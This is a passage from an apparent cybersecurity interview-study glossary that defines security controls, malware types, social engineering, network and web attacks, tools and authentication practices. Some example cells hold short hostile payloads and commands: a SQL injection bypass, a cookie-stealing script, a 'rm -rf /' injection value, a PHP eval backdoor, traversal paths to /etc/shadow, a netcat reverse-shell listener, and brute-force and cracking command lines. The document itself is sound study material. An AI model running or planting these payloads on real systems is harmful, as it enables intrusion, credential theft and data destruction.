| 168. Zero Trust Network Access | Replacing VPN with identity-verified, context-aware per-application access instead of full network access. | Cloudflare Access granting only app-level access to authorised users |
| 169. Network Segmentation | Dividing a network into separate zones so a compromise in one zone cannot freely spread to others. | Finance VLAN isolated from HR; no lateral movement possible |
| 170. Egress Filtering | Controlling what traffic is allowed to leave the network — limits exfiltration and C2 communication. | Firewall blocking all outbound except 80, 443, and DNS |

---

#### 🔒 Security Controls & Architecture (171–200)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 171. Security Control | A safeguard or countermeasure designed to reduce risk by protecting assets, detecting threats, or responding to incidents. | MFA, encryption, a firewall rule, or a security awareness programme |
| 172. Preventive Control | Stops an attack or incident before it can occur. | Firewall blocking inbound RDP from the internet |
| 173. Detective Control | Identifies that an attack or incident has occurred or is in progress. | SIEM alert firing on multiple failed logins followed by a success |
| 174. Corrective Control | Restores systems or data to a known-good state after an incident. | Restoring from clean backup after ransomware encryption |
| 175. Deterrent Control | Discourages attackers by making the cost or risk of attacking too high. | Warning banners, visible cameras, published legal consequences |
| 176. Compensating Control | An alternative control used when the ideal control is not feasible. | Network isolation of unpatched legacy machine that cannot be updated |
| 177. Technical Control | Hardware- or software-based safeguard. | Firewall, EDR, encryption, MFA token |
| 178. Administrative Control | Policy, procedure, or training-based safeguard. | Acceptable use policy, mandatory phishing training |
| 179. Physical Control | Tangible barrier that restricts or monitors physical access. | Locked server room, mantrap, CCTV, security guard at reception |
| 180. Defence in Depth | Layering multiple independent controls so no single failure exposes everything. | Phishing filter + MFA + EDR + SIEM + backup — five layers |
| 181. Security Baseline | Minimum hardened configuration that every system must meet before going into production. | CIS Benchmark applied to all new server builds |
| 182. Hardening | Removing unnecessary features, services, and default credentials to reduce a system's attack surface. | Disabling SMBv1, removing unused services, setting strong passwords |
| 183. Patch Priority | Scoring which patches to apply first based on severity, exploitability, and asset criticality. | CVSS 9.8 + actively exploited = emergency patch within 24 hours |
| 184. CVSS | Common Vulnerability Scoring System — rates vulnerability severity from 0 to 10 based on exploitability and impact. | Log4Shell scored CVSS 10.0 — maximum severity |
| 185. CVE | Common Vulnerabilities and Exposures — unique identifier for a publicly known security flaw. | CVE-2021-44228 is the Log4Shell vulnerability in Log4j |
| 186. NVD | National Vulnerability Database — US government database enriching CVEs with CVSS scores and references. | Security teams check NVD for official severity rating before patching |
| 187. CWE | Common Weakness Enumeration — catalogue of software and hardware weakness types (not specific instances). | CWE-89 is SQL Injection; CWE-79 is Cross-Site Scripting |
| 188. Threat Model | Structured analysis of a system to identify what could go wrong, who would attack it, and how to mitigate it. | STRIDE model run on a new payment API before development starts |
| 189. Attack Surface | The complete set of paths an attacker could use to enter or extract data from a system. | Every open port, public API, and admin interface is part of the surface |
| 190. Attack Vector | The specific path or mechanism an attacker uses to reach and exploit a vulnerability. | Email attachment delivering ransomware via macro execution |
| 191. Exploit | The technique or code used to take advantage of a vulnerability and achieve the attacker's goal. | EternalBlue exploit triggering a buffer overflow in SMBv1 |
| 192. Zero-Day | A vulnerability that is actively exploited before the vendor has produced a patch or effective mitigation. | Log4Shell used in attacks before Log4j developers could release a fix |
| 193. Proof of Concept | Working code that demonstrates a vulnerability is exploitable without necessarily causing harm. | PoC posted on GitHub proving a command injection works |
| 194. Patch Tuesday | Microsoft's monthly second-Tuesday release cycle for security updates. | IT teams plan their patching schedule around Patch Tuesday |
| 195. Mitre ATT&CK | A globally accessible knowledge base of real-world adversary tactics and techniques used for detection mapping. | Map SIEM detections to ATT&CK technique IDs for coverage analysis |
| 196. Indicator of Compromise | Observable artefact suggesting a system has been compromised — hash, IP, domain, or file path. | Malware hash on VirusTotal; C2 IP in firewall logs |
| 197. Indicator of Attack | Behavioural signal suggesting an attack is in progress before a compromise is confirmed. | Unusual admin account running PowerShell at 2 AM |
| 198. False Positive | An alert that fires on benign activity, wasting analyst time and causing alert fatigue. | SIEM flags a legitimate admin running a script as suspicious |
| 199. True Positive | An alert that correctly identifies real malicious activity. | SIEM detects real credential-stuffing attack and SOC confirms it |
| 200. Alert Fatigue | Condition where analysts receive so many alerts that important ones are missed or ignored. | SOC drowning in 50,000 alerts/day tunes rules to focus on high fidelity |

### Attacker Tactics (201–300)

!!! note "Format: concept, answer, example, or tool"
    Each row gives you a clean definition you can say in an interview, plus a concrete control, example, or tool.

---

#### 🦠 Malware Types (201–250)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 201. Malware | Umbrella term for software intentionally designed to damage, spy on, extort, disrupt, or provide unauthorized access. | Viruses, worms, trojans, ransomware, and spyware |
| 202. Virus | Malware that attaches to a host file or program and spreads when that infected file is executed. | ILOVEYOU spreading after users opened infected attachments |
| 203. Worm | Self-replicating malware that spreads automatically across systems or networks without direct user action. | WannaCry spreading through vulnerable SMB services using EternalBlue |
| 204. Trojan Horse | Malware disguised as legitimate software to trick the user into installing or running it. | Zeus banking trojan posing as harmless software to steal credentials |
| 205. Ransomware | Malware that encrypts data or locks systems and then demands payment or some concession. | REvil, LockBit, or WannaCry encrypting enterprise files |
| 206. Spyware | Malware that secretly monitors users and collects sensitive information such as keystrokes, messages, or screenshots. | Pegasus surveillance activity on high-value mobile targets |
| 207. Adware | Software that pushes unwanted advertising and may also track browsing behavior or redirect traffic. | Fireball hijacking browsers and injecting advertising content |
| 208. Rootkit | Malware designed to hide malicious activity by manipulating the operating system or low-level components. | Sony BMG rootkit concealing files and processes on Windows systems |
| 209. Keylogger | Malware or hardware that records keystrokes to steal passwords, messages, and other sensitive input. | Olympic Vision capturing typed credentials on compromised endpoints |
| 210. Botnet | Group of compromised devices remotely controlled by an attacker for spam, DDoS, malware delivery, or fraud. | Mirai botnet launching large-scale DDoS attacks against Dyn |
| 211. File Infector Virus | Virus that attaches to executable files and spreads when those infected programs are launched | CIH/Chernobyl infecting `.exe` files and activating when they ran |
| 212. Boot Sector Virus | Virus that infects boot records so malicious code runs before the operating system starts. | Stoned virus infecting the master boot record on legacy systems |
| 213. Macro Virus | Infects Office documents using embedded Visual Basic macros | Melissa virus spread via Word docs |
| 214. Multipartite Virus | Virus able to infect both boot sectors and regular files, giving it multiple spread paths | Invader-style malware infecting startup media and executables |
| 215. Polymorphic Virus | Mutates its code to avoid signature-based detection | Storm Worm — changed signature constantly |
| 216. Metamorphic Virus | Virus that rewrites its own code on each generation so signatures are harder to match | Zmist using code transformation to evade static signatures |
| 217. Resident Virus | Virus that stays loaded in memory and keeps infecting files or processes after execution | CMJ-style resident infection persisting in RAM after launch |
| 218. Non-Resident Virus | Only active when infected file is opened | Simple file infectors |
| 219. Direct Action Virus | Virus that infects files immediately when triggered but does not remain resident in memory | Vienna virus infecting additional executables only during runtime |
| 220. Overwrite Virus | Overwrites file content making file unusable | Trivial family virus |
| 221. Email Virus | Virus or malware family that spreads mainly through email attachments, links, or macro documents | ILOVEYOU or Melissa spreading through users' mailboxes |
| 222. Network Worm | Self-replicating worm that spreads through network shares, vulnerable services, or open ports | Blaster scanning for exposed Windows RPC services |
| 223. Internet Worm | Scans internet for vulnerable systems to infect | Morris Worm (1988) — first major internet worm |
| 224. Mass Mailing Worm | Sends copies of itself to all contacts in address book | Mydoom — fastest-spreading email worm |
| 225. SQL Worm | Exploits SQL Server vulnerabilities to spread | SQL Slammer (2003) — took down internet segments |
| 226. Banking Trojan | Steals financial credentials and session data | Emotet, TrickBot, Dridex |
| 227. RAT (Remote Access Trojan) | Trojan that gives the attacker remote interactive control of the victim system | DarkComet or njRAT for screen control, file access, and command execution |
| 228. Backdoor Trojan | Creates hidden entry point for future attacker access | Back Orifice, Gh0st RAT |
| 229. Fake Antivirus Trojan | Trojan that pretends to be security software while actually installing malware or extorting the user. | Fake pop-up claiming "Your computer is infected" to push scareware |
| 230. Downloader Trojan | Downloads and installs other malware after initial infection | Emotet (downloads TrickBot) |
| 231. Locker Ransomware | Ransomware that locks the device or screen rather than encrypting all files. | WinLocker blocking access to the desktop until payment is demanded |
| 232. Crypto Ransomware | Encrypts files and demands crypto payment for key | WannaCry, REvil, LockBit |
| 233. Double Extortion | Encrypts AND threatens to leak data publicly | Maze ransomware (2019) pioneered this |
| 234. Mobile Ransomware | Ransomware aimed at phones or tablets, often locking the device or threatening to leak data | LeakerLocker targeting Android users with extortion |
| 235. Ransomware as a Service | Ransomware kit sold to affiliates via dark web | REvil, DarkSide RaaS models |
| 236. Tracking Spyware | Spyware that silently records location, messages, calls, or other personal activity | Pegasus surveillance activity on high-value mobile targets |
| 237. Password Stealing Spyware | Spyware focused on capturing credentials, browser data, or form submissions | FormBook or Agent Tesla stealing saved passwords and typed logins |
| 238. Ad Injecting Spyware | Spyware that modifies browser traffic or pages to insert ads and track user behavior | Superfish injecting ads into web-browsing sessions |
| 239. Kernel Rootkit | Rootkit operating in kernel space, making it highly privileged and difficult to detect or remove | Necurs hiding malicious processes and drivers at the kernel level |
| 240. User Mode Rootkit | Rootkit running in user space that hides files, processes, or registry entries without kernel-level control | ZeroAccess-style hiding through user-mode hooks |
| 241. Hardware Keylogger | Physical device placed between keyboard and computer to record keystrokes outside the operating system | KeyGrabber USB collecting typed passwords from a workstation |
| 242. Software Keylogger | Program that records keystrokes without hardware | Actual Keylogger, Spyrix |
| 243. Botnet C2 | Command and Control server that issues commands to bots | Attacker sends "encrypt all files" to 10,000 bots |
| 244. Zombie Computer | Compromised device remotely controlled as part of a botnet or coordinated attack | Infected home PC used in spam or DDoS campaigns without the owner's knowledge |
| 245. Drive-by Download | Malware downloaded automatically by visiting a webpage | Malvertising on legitimate news sites |
| 246. Malicious Attachment | File weaponized to deliver malware when the recipient opens, previews, or enables content | ZIP, ISO, or macro-enabled document dropping a payload |
| 247. Malicious Link | URL that leads to malware download or phishing page | Shortened URL hiding malicious redirect |
| 248. Fake Software Update | Malware disguised as a legitimate update prompt | "Update your Flash Player" popups |
| 249. Watering Hole | Attacker infects websites the target frequently visits | APT groups infecting industry forums |
| 250. Supply Chain Attack | Compromising software or hardware before it reaches victim | SolarWinds ORION backdoor (2020) |

---

#### 🎭 Social Engineering (251–270)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 251. Social Engineering | Manipulating humans psychologically to reveal info or grant access | "Call from IT support asking for password" |
| 252. Phishing | Mass email campaign impersonating trusted brands | GoPhish tool for testing |
| 253. Spear Phishing | Targeted phishing using personal details about victim | Attacker researches LinkedIn before emailing |
| 254. Whaling | Spear phishing specifically targeting senior executives | CEO fraud — fake legal notice to CFO |
| 255. Vishing | Voice phishing where attackers use phone calls or voicemail to trick victims into sharing data or taking action | Fake bank or Amazon call asking for OTPs or card details |
| 256. Smishing | SMS-based phishing that uses text messages to lure victims to malicious links or fake support flows | Delivery-scam text leading to a credential-harvesting page |
| 257. Baiting | Leaving infected USB drives in public hoping someone plugs it in | "Salary Details 2024.pdf" USB in car park |
| 258. Pretexting | Creating a believable fake scenario to extract information | Fake survey calling employees for "IT audit" |
| 259. Tailgating | Physically following someone through secured door | Delivery person following employee through badge door |
| 260. Shoulder Surfing | Watching target type credentials or view sensitive data | Watching PIN at ATM or café |
| 261. Dumpster Diving | Going through trash to find sensitive discarded documents | Company invoices, org charts, access codes |
| 262. Impersonation | Pretending to be someone else to gain access or information | Fake IT support badge |
| 263. Quid Pro Quo | Offering something in exchange for information | "We'll fix your PC if you give us your login" |
| 264. Scareware | Fraud technique that uses alarming fake warnings to pressure the victim into unsafe action or payment. | Fake support alert claiming the PC has dozens of viruses |
| 265. Clickjacking | Tricks user into clicking hidden elements on a webpage | Invisible button over "Play" loads malware |
| 266. Deepfake Attack | AI-generated fake audio/video used for social engineering | Deepfake CEO voice authorising wire transfer |
| 267. BEC | Business Email Compromise where attackers impersonate trusted executives or partners to trigger fraudulent payments or disclosures. | Fake CEO email instructing finance staff to send an urgent wire transfer |
| 268. Identity Theft | Stealing personal info to impersonate victim | Tax fraud, credit card fraud |
| 269. Insider Attack | Employee intentionally harms their own organization | Data theft before resignation |
| 270. Human Error | Accidental security breach by well-meaning staff | Employee emails confidential file to wrong person |

---

#### Network and web attacks (271-300)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 271. DoS | Single source floods target with traffic causing it to crash | `ping -t -l 65500` (simple flood) |
| 272. DDoS | Millions of bots overwhelm target simultaneously | Mirai botnet DDoS on Dyn (2016) |
| 273. SYN Flood | Sends thousands of SYN packets without completing handshake | Fills server's connection table; `hping3` |
| 274. UDP Flood | Overwhelms server with UDP packets on random ports | UDP amplification attacks |
| 275. ICMP Flood | Denial-of-service attack that overwhelms a target with huge volumes of ICMP echo traffic | Ping flood saturating network bandwidth or CPU on the target |
| 276. Ping of Death | Oversized ICMP packet causes buffer overflow and crash | Classic attack; mostly patched now |
| 277. Smurf Attack | Amplification attack using spoofed ICMP requests to broadcast addresses so many hosts reply to one victim | Spoofed ping to a broadcast network causing every host to flood the victim |
| 278. Fraggle Attack | Same as Smurf but uses UDP instead of ICMP | Targets UDP port 7 (echo) |
| 279. Teardrop Attack | Sends malformed fragmented packets that crash on reassembly | Targets old Windows/Linux kernels |
| 280. HTTP Flood | Layer 7 denial-of-service attack that overwhelms a web service with huge numbers of HTTP requests. | Massive GET or POST traffic that looks similar to legitimate users |
| 281. MITM | Attacker intercepts communication between two parties | `arpspoof` + `ettercap` on LAN |
| 282. Session Hijacking | Steals session token to impersonate authenticated user | Firesheep (stole Facebook sessions on WiFi) |
| 283. Replay Attack | Captures and retransmits valid authentication data | Token replay — replay captured JWT |
| 284. ARP Spoofing | Sends fake ARP replies to link attacker's MAC to victim's IP | Enables MITM; `arpspoof` tool |
| 285. DNS Spoofing | Corrupts DNS cache with fake records to redirect users | Redirects `bank.com` to attacker's site |
| 286. IP Spoofing | Forging the source IP address in packets to hide origin, impersonate hosts, or enable amplification | DDoS amplification or trust-abuse attacks using a fake source IP |
| 287. MAC Spoofing | Changes device's MAC to bypass MAC filtering | `macchanger` on Linux |
| 288. Packet Sniffing | Intercepting and examining network traffic to read data, capture credentials, or study sessions | Wireshark or Tcpdump capturing unencrypted traffic on a LAN |
| 289. Evil Twin | Attacker creates fake WiFi AP with same name as legit one | Victim connects → attacker intercepts all traffic |
| 290. Rogue Access Point | Unauthorised WiFi AP connected to corporate network | Employee plugs in personal router |
| 291. SQL Injection | Malicious SQL inserted into input field to manipulate database | `' OR 1=1 --` bypasses login; `sqlmap` |
| 292. XSS | Script injected into webpage that executes in victim's browser | `<script>document.cookie</script>` steal cookies |
| 293. CSRF | Tricks authenticated user into unknowingly submitting a request | Fake form on attacker's site posts to bank.com |
| 294. Command Injection | Injects OS commands through vulnerable application input | `; rm -rf /` in filename field |
| 295. Code Injection | Injects and executes arbitrary code in application | PHP: `eval($_GET['cmd'])` backdoor |
| 296. File Inclusion | Forces application to include malicious remote or local file | LFI: `?page=../../../../etc/passwd` |
| 297. Directory Traversal | Navigates to directories outside web root using `../` | `../../../../etc/shadow` |
| 298. Buffer Overflow | Sending more data than buffer can hold overwrites memory | EternalBlue exploits SMB buffer overflow |
| 299. Race Condition | Two processes access shared resource simultaneously causing flaw | TOCTTOU (Time of Check to Time of Use) |
| 300. Zero Day Attack | Exploiting unknown, unpatched vulnerability | Stuxnet (multiple zero-days), Log4Shell |

### Tools & Commands (301–400)

!!! note "Format: concept, answer, example, or tool"
    Each row gives you a clean definition you can say in an interview, plus a concrete control, example, or tool.

---

#### Scanning and exploitation (301-340)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 301. Nmap | Network-discovery and port-scanning tool used to identify hosts, services, versions, and sometimes operating systems. | `nmap -sV -O 192.168.1.1` during enumeration or exposure review |
| 302. Wireshark | Graphical packet analyzer used to capture and inspect network traffic in detail. | Filter like `http.request.method == GET` to study application traffic |
| 303. Metasploit | Framework for developing, testing, and launching exploits in authorized security assessments. | `msfconsole` using `exploit/ms17_010_eternalblue` in a lab or pentest |
| 304. Burp Suite | Web application testing platform for intercepting, modifying, replaying, and scanning HTTP traffic. | Used to test authentication, XSS, SQLi, and session handling in web apps |
| 305. Nessus | Commercial vulnerability scanner that identifies known CVEs, missing patches, and risky configurations. | Tenable Nessus or Tenable.io reporting exploitable findings across hosts |
| 306. OpenVAS | Open-source vulnerability scanner and management platform for identifying known weaknesses and misconfigurations | Greenbone/OpenVAS scan reporting CVEs across internal hosts |
| 307. Nikto | Web server scanner checking for 6,700+ dangerous files/CGIs | `nikto -h http://target.com` |
| 308. Aircrack-ng | WiFi security tool for WEP/WPA2 cracking | `aircrack-ng -w rockyou.txt capture.cap` |
| 309. John the Ripper | Password-cracking tool used to recover plaintext from hashes through wordlists, rules, and brute-force techniques | `john --wordlist=rockyou.txt hashes.txt` against leaked password hashes |
| 310. Hashcat | GPU-accelerated password-cracking tool optimized for speed against many hash formats. | `hashcat -m 0 hash.txt rockyou.txt` in a password-audit lab |
| 311. Hydra | Online password brute-force tool for login forms | `hydra -l admin -P pass.txt ssh://target` |
| 312. Netcat | Flexible networking utility used for port testing, banner grabbing, file transfer, and simple shells. | `nc -lvp 4444` listening for a reverse-shell connection |
| 313. Tcpdump | Command-line packet-capture tool for collecting and filtering raw network traffic on Unix-like systems | `tcpdump -i eth0 port 80 -w capture.pcap` during network troubleshooting |
| 314. Snort | Open-source IDS/IPS using signature detection | Monitors traffic for known attack patterns |
| 315. Suricata | High-performance IDS/IPS and network-security monitoring engine for signature and protocol analysis | Inline Suricata blocking malicious traffic in `drop` mode |
| 316. OSSEC | Host-based intrusion detection system that monitors logs, integrity changes, and suspicious endpoint activity. | Alerting when `/etc/passwd` or other critical files are modified |
| 317. Security Onion | Linux distribution built for network monitoring, detection, and threat-hunting workflows. | Bundles Zeek, Suricata, Elasticsearch, and supporting SOC tools |
| 318. Kali Linux | Penetration testing distro with 600+ pre-installed tools | Standard for pen testers and CTF players |
| 319. Parrot OS | Privacy- and security-focused Linux distribution often used for penetration testing and research. | Lighter alternative to Kali for anonymity and offensive labs |
| 320. BackBox Linux | Ubuntu-based security distribution with preinstalled penetration-testing and forensic tools | Lightweight alternative to Kali for security labs and assessments |
| 321. Firewall | Filters traffic based on IP, port, protocol rules | `iptables`, Windows Firewall, pfSense |
| 322. Next-Gen Firewall (NGFW) | Firewall platform combining traditional filtering with deep inspection, application awareness, and intrusion prevention. | Palo Alto, Fortinet FortiGate, or Cisco FTD |
| 323. WAF (Web App Firewall) | Filters HTTP traffic to block OWASP Top 10 attacks | Cloudflare WAF, AWS WAF, ModSecurity |
| 324. Network Firewall | Protects network perimeter from external threats | Checkpoint, Sophos XG |
| 325. Host-based Firewall | Firewall running directly on an endpoint to control inbound and outbound traffic for that specific machine. | Windows Defender Firewall, `ufw`, or macOS Application Firewall |
| 326. Proxy Firewall | Firewall that proxies connections and inspects traffic at the application layer before forwarding it. | Squid proxy with filtering and inspection policies |
| 327. Stateful Firewall | Firewall that tracks connection state so it can distinguish legitimate return traffic from unsolicited packets. | Most modern enterprise firewalls and cloud security groups |
| 328. Packet Filtering | Traffic-control method that evaluates packet headers such as IP, port, and protocol against rules. | Router ACLs or simple stateless firewall policies |
| 329. Deep Packet Inspection | Technique that inspects packet payloads and protocol details beyond basic headers. | Detecting and blocking BitTorrent, malware signatures, or risky application traffic |
| 330. IDS | Intrusion Detection System that monitors activity and raises alerts without necessarily blocking traffic. | Snort or Suricata running in alert-only mode |
| 331. IPS | Intrusion Prevention System deployed inline so it can actively block malicious traffic. | Suricata in `drop` mode or a dedicated IPS appliance |
| 332. EDR | Endpoint Detection and Response platform that monitors devices and supports investigation, containment, and automated response. | CrowdStrike Falcon, SentinelOne, or Microsoft Defender for Endpoint |
| 333. XDR | Extended Detection and Response combining endpoint, identity, network, email, or cloud telemetry in one detection platform. | Palo Alto Cortex XDR or Microsoft Defender XDR |
| 334. SIEM | Aggregates logs, correlates events, raises alerts | Splunk, IBM QRadar, Microsoft Sentinel |
| 335. SOAR | Automates IR playbooks triggered by SIEM alerts | XSOAR (Palo Alto), IBM Resilient |
| 336. Threat Intel Platform | Platform that ingests, enriches, correlates, and shares threat intelligence from many sources | MISP, ThreatConnect, or Recorded Future feeding indicators into a SOC |
| 337. Vulnerability Scanner | Scans systems for known CVEs and misconfigurations | Nessus, Qualys, OpenVAS |
| 338. Patch Management Tool | Pushes patches to multiple systems automatically | WSUS, Ansible, ManageEngine |
| 339. IAM | Identity and Access Management used to create identities, control permissions, and govern authentication. | Active Directory, Okta, or Microsoft Entra ID |
| 340. PAM | Privileged Access Management focused on controlling, monitoring, and reducing high-risk administrative access. | CyberArk, BeyondTrust, or Delinea privileged-access workflows |

---

#### Encryption, DLP, and cloud tools (341-380)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 341. MFA Tool | Tool that adds a second or stronger authentication factor to user sign-in flows | Google Authenticator, Duo, Authy, or FIDO2 security keys |
| 342. Password Manager | Securely stores unique passwords for every site | Bitwarden (open source), 1Password, KeePass |
| 343. Encryption Software | Encrypts files and drives to protect data at rest | VeraCrypt, BitLocker, GnuPG |
| 344. Disk Encryption | Technology that encrypts an entire disk or volume so stolen hardware does not expose data | BitLocker on Windows or FileVault on macOS laptops |
| 345. Email Encryption | Encrypts email content so only recipient can read | PGP/GPG, S/MIME, ProtonMail |
| 346. DLP | Data Loss Prevention controls that detect and stop sensitive information from leaving approved boundaries. | Symantec DLP, Microsoft Purview, or email and endpoint DLP rules |
| 347. Backup Software | Software that automates backup creation, scheduling, retention, and restore workflows | Veeam, Acronis, or AWS Backup protecting servers and databases |
| 348. DR Tool | Automates disaster recovery testing and failover | Zerto, VMware Site Recovery Manager |
| 349. Cloud Security Tool | Tool that monitors or enforces cloud configuration, identity, workload, and compliance controls | AWS Security Hub, Prisma Cloud, or Microsoft Defender for Cloud |
| 350. Container Security | Tooling and controls that scan, harden, and monitor container images and runtimes | Trivy, Anchore, or Aqua Security scanning Docker images |
| 351. Kubernetes Security | Security controls and tools focused on clusters, pods, RBAC, admission, and runtime behavior | Falco, kube-bench, OPA Gatekeeper, or Kyverno in Kubernetes |
| 352. DevSecOps Tools | Integrates security into CI/CD pipelines | SonarQube, Snyk, GitLab SAST |
| 353. SAST | Static Application Security Testing that analyzes source code or compiled code without executing the application. | Checkmarx, Veracode, or SonarQube in CI pipelines |
| 354. DAST | Dynamic Application Security Testing that probes a running application from the outside to find exploitable weaknesses. | OWASP ZAP or Burp Suite testing a live web app |
| 355. Pen Test Tools | Tools used in authorised security assessments | Metasploit, Burp Suite, Nmap, BloodHound |
| 356. Red Team Tools | Offensive tools that simulate real attacker TTPs | Cobalt Strike, Brute Ratel, Empire |
| 357. Blue Team Tools | Defensive tools for detection and response | Splunk, CrowdStrike, OSSEC, Zeek |
| 358. Purple Team Tools | Combined attack-defense measurement tools | Atomic Red Team, Caldera (MITRE) |
| 359. Digital Forensics Tools | Collect and preserve evidence after incidents | Autopsy, FTK, dd, KAPE |
| 360. IR Tools | Tools specifically for incident response workflow | TheHive, Velociraptor, Cuckoo |

---

#### 📊 Monitoring, OSINT & Compliance (381–400)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 361. Log Analysis Tool | Tool that parses, indexes, searches, and correlates logs for troubleshooting and security detection | Splunk, ELK Stack, or Graylog searching large event sets |
| 362. Network Monitor | Tracks bandwidth, latency, device health | Nagios, Zabbix, PRTG |
| 363. Security Monitor | Monitoring platform or workflow that surfaces suspicious events, alerts, and security-health signals | SIEM dashboards, SOC monitoring consoles, or EDR alert queues |
| 364. Threat Hunting Tool | Lets analysts search across data for IOCs | Velociraptor, Elastic, Grep-based hunting |
| 365. Malware Analysis Tool | Tool used to inspect suspicious files, behavior, memory, or code to understand malware safely | Cuckoo Sandbox, ANY.RUN, IDA Pro, or Ghidra |
| 366. Sandbox | Isolated environment to safely detonate malware | Cuckoo, VMware Sandbox, ANY.RUN |
| 367. Reverse Engineering Tool | Tool used to disassemble, decompile, and study binaries or malware internals | IDA Pro, Ghidra, Radare2, or Binary Ninja |
| 368. Packet Analyser | Tool that captures and decodes packets so protocols, sessions, and payloads can be examined | Wireshark or Tcpdump for DNS, HTTP, and TLS troubleshooting |
| 369. Traffic Analyser | Tool that studies communication patterns, flows, and anomalies across captured or summarized traffic | Zeek, NetFlow analyzers, or NDR dashboards |
| 370. Wireless Analyser | Tool that discovers and inspects wireless networks, clients, channels, and security settings | Kismet, Airodump-ng, or WiFi Explorer auditing nearby wireless networks |
| 371. Password Cracker | Attempts to recover passwords from hashes | Hashcat, John the Ripper |
| 372. Exploitation Framework | Structured platform for discovering and exploiting vulns | Metasploit, Core Impact |
| 373. Recon Tool | Gathers info about target before attacking | Maltego, Recon-ng, theHarvester |
| 374. OSINT Tool | Gathers intelligence from publicly available sources | Maltego, SpiderFoot, Shodan |
| 375. Web Scanner | Automated tool that crawls web apps and checks for common vulnerabilities and misconfigurations | OWASP ZAP, Nikto, or Burp Suite scanner |
| 376. API Testing Tool | Tests APIs for authentication flaws and injection | Postman + security tests, OWASP ZAP |
| 377. DB Security Tool | Tool that monitors, scans, or hardens databases against misuse, injection, and misconfiguration | Imperva DAM for monitoring or SQLMap during offensive validation |
| 378. FIM | File Integrity Monitoring that detects and alerts when important files are created, changed, or deleted unexpectedly. | Tripwire or the OSSEC FIM module watching system files |
| 379. Config Scanner | Checks system config against security benchmarks | Lynis, CIS-CAT, OpenSCAP |
| 380. Compliance Tool | Automates compliance evidence collection | Drata, Vanta, ServiceNow GRC |
| 381. Risk Assessment Tool | Tool or platform used to score, visualize, and prioritise business and technical risk | RiskLens or FAIR-based tooling for enterprise risk analysis |
| 382. Governance Tool | Manages policies, controls, and frameworks | RSA Archer, ServiceNow GRC |
| 383. Audit Tool | Tool that records evidence, changes, or control status to support audits and accountability | Audit logs, Tenable.sc, or GRC platforms storing review evidence |
| 384. Identity Federation Tool | Manages trust relationships across org boundaries | Okta, Azure AD B2B, Shibboleth |
| 385. Access Control Tool | Tool that enforces, governs, or reviews who can access systems, roles, and sensitive data | CyberArk, SailPoint, or Microsoft Entra ID access reviews |
| 386. Secure Gateway | Controls and monitors traffic at network boundary | Zscaler Internet Access, Cisco Umbrella |
| 387. VPN Gateway | Appliance or service that terminates encrypted VPN tunnels for remote users or site-to-site links | Cisco ASA, Palo Alto GlobalProtect, or WireGuard server |
| 388. Email Security Gateway | Gateway that inspects inbound and outbound email for phishing, spam, malware, and spoofing | Proofpoint, Mimecast, or Microsoft Defender for Office 365 |
| 389. Web Security Gateway | Proxy or cloud gateway that filters web traffic, URLs, and downloads for users | Zscaler Internet Access or Cisco Umbrella enforcing web policy |
| 390. CASB | Enforces security policies for cloud app usage | Microsoft Defender for Cloud Apps |
| 391. EPP | Endpoint Protection Platform combining antivirus, device control, firewall, and other preventative endpoint protections. | Trellix, Symantec Endpoint Protection, or similar endpoint suites |
| 392. Anti-Malware | Detects and removes malware (broader than antivirus) | Malwarebytes, Windows Defender |
| 393. Anti-Spyware | Specifically targets spyware/tracking software | Spybot Search & Destroy |
| 394. Anti-Ransomware | Detects ransomware behavior (file encryption) | Malwarebytes Anti-Ransomware |
| 395. Anti-Phishing Tool | Scans links and emails for phishing indicators | Microsoft Defender, Proofpoint |
| 396. Anti-Spam | Filtering technology that detects and blocks unsolicited or bulk email before it reaches users | SpamAssassin, Proofpoint, or Gmail spam filtering |
| 397. Security Awareness Tool | Delivers phishing simulations and training | KnowBe4, Proofpoint Security Awareness |
| 398. Training Platform | Platform delivering labs, exercises, or courses to build cybersecurity knowledge and skills | TryHackMe, Hack The Box, SANS, or internal awareness portals |
| 399. Bug Bounty Platform | Service that coordinates vulnerability disclosure between companies and approved researchers | HackerOne, Bugcrowd, or Intigriti managing reports and rewards |
| 400. Threat Sharing Platform | Allows sharing of IOCs between organizations | MISP, STIX/TAXII, ISACs |

### Security Practices (401–500)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example or tool.

---

#### 🔑 Authentication & Access Controls (401–430)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 401. Strong Password Policy | Enforcing length, uniqueness, and checking against breached databases to prevent credential guessing. | Entra ID blocking passwords on the banned password list |
| 402. Password Complexity | Requiring mixed character types to increase the mathematical difficulty of brute-core cracking. | Policy requiring uppercase, lowercase, numbers, and symbols |
| 403. Password Length | The most critical factor in password strength; longer passwords defeat brute-force exponentially better than complex short ones. | Minimum 14 characters for admin accounts |
| 404. Password Rotation | Forcing users to change passwords periodically — though modern guidelines advise against this unless a breach is suspected. | NIST SP 800-63B recommends ending arbitrary 90-day rotations |
| 405. Password Hashing | Storing credentials using a one-way mathematical function so the original plaintext is never saved. | Argon2id, bcrypt, or PBKDF2 |
| 406. Password Salting | Adding random data to a password before hashing to defeat pre-computed rainbow table attacks. | A unique 16-byte salt appended to each user's password before hashing |
| 407. MFA Usage | Verifying identity using at least two independent factors: something you know, have, or are. | Password (know) + YubiKey hardware token (have) |
| 408. Biometric Auth | Using physical or behavioural characteristics to verify identity (something you are). | Windows Hello face recognition or Apple Touch ID |
| 409. Token-Based Auth | Issuing a short-lived digital token after login that the user presents for subsequent authentication without sending credentials again. | OAuth 2.0 access token or signed JWT |
| 410. Secure Login | A sign-in process protected by encryption, rate limiting, MFA, and secure session generation. | Authenticating over TLS 1.3 with anti-CSRF tokens |
| 411. Account Lockout | Automatically disabling an account for a set period after too many failed login attempts to stop brute-forcing. | Account locked for 15 minutes after 5 bad attempts |
| 412. Session Timeout | Automatically killing an active session after a period of inactivity to reduce the risk of session hijacking. | Banking app logging out after 10 minutes idle |
